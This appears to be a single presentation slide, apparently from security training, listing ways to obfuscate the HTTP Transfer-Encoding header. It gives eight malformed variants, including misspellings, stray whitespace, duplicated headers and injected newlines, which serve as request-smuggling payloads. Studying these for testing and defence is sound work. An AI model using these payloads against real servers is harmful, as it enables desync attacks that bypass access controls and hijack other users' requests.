

How to obfuscate the Transfer-Encoding header

Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked